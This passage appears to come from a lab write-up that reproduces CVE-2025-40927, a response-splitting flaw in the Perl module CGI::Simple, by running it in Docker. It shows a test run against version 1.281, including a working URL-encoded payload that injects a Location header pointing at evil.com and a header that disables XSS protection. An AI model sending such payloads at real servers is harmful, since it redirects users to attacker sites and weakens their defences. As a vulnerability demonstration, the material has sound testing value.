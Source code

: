 Now we are ready to create two services:

<br>

    cgi-simple-1281: CGI::Simple v1.281
    cgi-simple-1282: CGI::Simple v1.282

<br>

Let's start the services:

<br>

```bash
$ docker-compose up -d
Creating network "cve-2025-40927_default" with the default driver
Creating cve-2025-40927_cgi-simple-1281_1 ... done
Creating cve-2025-40927_cgi-simple-1282_1 ... done
```

<br>

Check the status of the services:

<br>

```bash
$ docker-compose ps
              Name                            Command               State   Ports
---------------------------------------------------------------------------------
cve-2025-40927_cgi-simple-1281_1   sh -c  cpanm -n CGI::Simpl ...   Up
cve-2025-40927_cgi-simple-1282_1   sh -c  cpanm -n CGI::Simpl ...   Up
```

<br>

## Step 4: Testing Time
***

<br>

Now we are ready to test the exploit in each services.

First we test in the service `cgi-simple-1281` as below:

<br>

```bash
$ docker-compose exec cgi-simple-1281 perl test-exploit.pl
CGI::Simple Security Vulnerability Test
==================================================
Version: 1.281
Test Date: Wed Sep  3 13:34:24 2025
==================================================

TEST 1: HTTP RESPONSE SPLITTING SIMULATION
==================================================
Payload: redirect=normal%0ALocation:https://evil.com%0AX-XSS-Protection:0
Decoded (escaped): normal\nLocation:https://evil.com\nX-XSS-Protection:0
Contains newlines: YES
Contains carriage returns: NO

EXPLOIT SUCCESSFUL! Found malicious Location header
EXPLOIT SUCCESSFUL! X-XSS-Protection disabled
EXPLOIT SUCCESSFUL! Multiple Location headers found: 2
Generated headers:
==============================
Location: /login?redirect=normal
Location:https://evil.com
X-XSS-Protection:0
Content-Type: text/html; charset=ISO-8859-1
```